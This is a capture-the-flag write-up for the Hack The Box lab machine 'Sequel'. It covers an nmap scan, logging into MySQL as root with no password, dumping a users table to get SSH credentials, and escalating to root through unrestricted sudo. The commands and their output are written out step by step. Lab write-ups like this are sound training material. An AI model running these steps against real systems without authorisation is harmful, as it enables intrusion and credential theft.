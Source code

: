 # Hack The Box - Sequel

## Overview
- **IP Address:** 10.129.110.10
- **Difficulty:** Easy
- **Category:** Database / MySQL Exploitation
- **Completion Date:** September 9TH 2025

---

## 1. Reconnaissance

### Nmap Scan
Performed an initial scan to identify open ports:
```bash
nmap -sC -sV -oN nmap_initial.txt 10.129.110.10
```

**Scan Results:**
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4
3306/tcp open  mysql   MySQL 8.0.29-0ubuntu0.20.04.3
```

[Add screenshot: `screenshots/Nmap_scan.png`]

---

## 2. Enumeration

### Connecting to MySQL
Tested for default/empty credentials:
```bash
mysql -h 10.129.110.10 -u root
```
✅ Successfully connected without a password.

List databases:
```sql
SHOW DATABASES;
```
**Output:**
```
+--------------------+
| Database           |
+--------------------+
| information_schema |
| htb               |
| mysql             |
+--------------------+
```

Switch to `htb` database and check tables:
```sql
USE htb;
SHOW TABLES;
```
**Output:**
```
+-------+
| Table |
+-------+
| users |
+-------+
```

Dump the `users` table:
```sql
SELECT * FROM users;
```
**Output:**
```
+----+-------------+---------------+
| id | username    | password      |
+----+-------------+---------------+
| 1  | sequel_user | sequel_pass   |
+----+-------------+---------------+
```

[Add screenshot: `screenshots/mysql-creds.png`]

---

## 3. Exploitation

Login via SSH using discovered credentials:
```bash
ssh sequel_user@10.129.110.10
# Password: sequel_pass
```

✅ Access granted.

[Add screenshot: `screenshots/ssh-access.png`]

---

## 4. Privilege Escalation

Check sudo permissions:
```bash
sudo -l
```

**Output:**
```
User sequel_user may run the following commands on sequel:
    (ALL : ALL) ALL
```

Escalate to root:
```bash
sudo su
whoami
# root
```

[Add screenshot: `screenshots/root.png`]

---

## 5. Loot

- **User Flag:** `HTB{xxxxxxxxxxxxxxxxxxxx}`
- **Root Flag:** `HTB{xxxxxxxxxxxxxxxxxxxx}`

---

## 6. Lessons Learned
- Exposed MySQL services with default credentials are dangerous.  
- Always enumerate database users and permissions.  
- Misconfigured sudo permissions can lead to full root access.

---
